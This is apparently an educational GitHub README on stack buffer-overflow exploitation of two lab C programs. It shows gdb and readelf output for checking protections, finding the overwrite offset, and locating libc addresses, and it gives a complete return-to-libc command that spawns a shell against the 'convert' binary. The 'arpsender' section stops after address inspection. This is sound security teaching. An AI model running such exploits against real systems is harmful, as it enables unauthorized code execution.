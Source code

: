 # buffer-overflow
exploit vulnerable c/c++ programms with buffer overflow attacks
___
#### `convert` C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x0804869c <+0>:	push   %ebp
   .........  ....: ....   ....
   .........  ....: ....   ....
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary, but in this case this mechanism wasn't enabled.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x80485b0
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4` this line indicated that the Stack is Read-Write but not executable, so we have one defensive mechanism to bypass.

###### Determine the size of the buffer to override the instruction pointer `$eip`
```
$ gdb convert
(gdb) run 1 $(perl -e 'print "A"x744 . "B"x4 . "C"x4 . "D"x4')
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
    eax            0x0	0
    ecx            0xbfffef78	-1073746056
    edx            0xb7fd3360	-1208143008
    ebx            0x41414141	1094795585
    esp            0xbffff2c0	0xbffff2c0
    ebp            0x43434343	0x43434343
    esi            0x0	0
    edi            0x42424242	1111638594
    eip            0x44444444	0x44444444
    eflags         0x10296	[ PF AF SF IF RF ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
```
So the size of the buffer to overwrite the `$eip` is 756.
###### Sketch memory layout and attack plan
<img src="https://github.com/igavriil/buffer-overflow/blob/master/convert_attact.png" width="400" height="300" />
###### Find the addresses needed for the attack
``` 
$ gdb convert
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7eadc30 <system>
```
**system() address**: `0xb7eadc30`
```
(gdb) find &system,+9999999,"/bin/sh"  
0xb7fae194
```
**'/bin/sh' address**: `0xb7fae194`
```
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7ea1270 <exit>
```
**exit() address**: `0xb7ea1270`
###### Create your inputs according to the sketch and run the programm
```
$ ./convert 1 $(perl -e 'print "\x90"x752 .  "\x30\xdc\xea\xb7"  . "\x70\x12\xea\xb7" . "\x94\xe1\xfa\xb7"')
$ (unlocked shell)
````
___
#### `arpsender` C program
###### Determine protections enabled
* Canaries between buffers and control data in the stack
```
$ gdb convert
(gdb) disas main
   Dump of assembler code for function main:
   0x08048793 <+0>:    	push   %ebp
   .........  ....:     ....   ....
   .........  ....:     ....   ....
   0x080488e6 <+339>:	call   0x80484c0 <__stack_chk_fail@plt>
   0x080488eb <+344>:	leave  
   0x080488ec <+345>:	ret
```
`.........  ....: call 0x80484c0 <__stack_chk_fail@plt>` in the procedure epilogue indicates the presence of a canary. So we have one defensive mechanism to bypass.
* Executable Stack Protection
```
$ readelf -l convert
Elf file type is EXEC (Executable file)
Entry point 0x8048550
There are 8 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00100 0x00100 R E 0x4
  ....           ......   ......     ......     ......  ......  . . ...
```
`GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE  0x4` this line indicated that the Stack is Read-Write and executable, so this defensive mechanism is disabled.
````
(gdb) break print_address
(gdb) run packet.txt
(gdb) x/x &i
0xbffff454:	0x0804834c
(gdb) x/x &hwaddr.len
0xbffff458:	0xb7ee25d0
(gdb) x/x &hwaddr.addr
0xbffff459:	0xf3b7ee25
(gdb) x/x &hwaddr.hwtype
0xbffff4dc:	0x00000000
(gdb) x/x &hwaddr.prototype
0xbffff4e0:	0xbffff598
(gdb) x/x &hwaddr.oper
0xbffff4e4:	0xb7ff59c0
(gdb) x/x &hwaddr.protolen
0xbffff4e8:	0x00000065
(gdb) info frame
Stack level 0, frame at 0xbffff500:
 eip = 0x804864e in print_address (arpsender.c:24); saved eip 0x80488c5
 called by frame at 0xbffff5a0
 source language c.
 Arglist at 0xbffff4f8, args: packet=0x804a008 "\324ò\241\002"
 Locals at 0xbffff4f8, Previous frame's sp is 0xbffff500
 Saved registers:
  ebp at 0xbffff4f8, eip at 0xbffff4fc
````
